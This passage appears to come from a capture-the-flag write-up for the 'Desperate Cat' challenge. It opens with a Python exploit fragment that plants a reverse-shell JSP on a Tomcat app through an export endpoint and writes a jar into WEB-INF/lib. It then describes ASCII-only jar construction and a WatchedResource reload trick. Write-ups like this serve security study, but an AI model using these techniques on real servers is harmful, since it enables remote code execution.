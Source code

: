 ```python
    shell_path = r.text.strip().split('/')[-1]
    shell_url = f'{target_url}/export/{shell_path}'
    r2 = requests.post(url=shell_url,
                       data={
                           'a': '/tmp/session.jsp',
                           'b': 'voidfyoo',
                           'c': reverse_shell_jsp_payload,
                           'd': '/',
                       },
                       proxies=PROXIES)
    r3 = requests.post(url=f'{target_url}/export',
                       data={
                           'dir': './WEB-INF/lib/',
                           'filename': 'a.jar',
                           'content': 'a',
                       },
                       proxies=PROXIES)
    time.sleep(10)  # wait a while
    r4 = requests.get(url=f'{target_url}/tmp/session.jsp', proxies=PROXIES)
```



## ASCII ZIP Exploit

### Make ASCII ZIP Jar

Desperate Cat was finally solved by players from the two teams: WreckTheLine and Sauercloud. Unexpectedly, the core idea of the method they used was different from mine!

Since the program has escaped some important special characters, and there is dirty data before and after, the file content is written in the form of string encoding, so when I first thought about the problem, I took it for granted that writing the Jar file to the `/WEB-INF/lib/` directory and load it without errors is just impossible. But WreckTheLine and Sauercloud have proven that this is actually possible!

In fact, someone has studied how to use characters in the range of `[A-Za-z0-9]` to construct compressed data:

* https://github.com/molnarg/ascii-zip
* https://github.com/Arusekk/ascii-zip

WreckTheLine and Sauercloud refer to the relevant algorithms and construct a special Jar package with all bytes in the range of 0-127 and no escaped characters, so that even if there is dirty data arround, and the content is written in the string encoded format, Java will still consider it's a valid Jar package.

### Modify Context WatchedResource

After writing a valid Jar package, it is still necessary to consider the problem of reloading the application, so that the Jar package can be introduced. For this problem, the players of the WreckTheLine and Sauercloud teams did not use EL expressions, but modified the Tomcat Context WatchedResource to trigger:
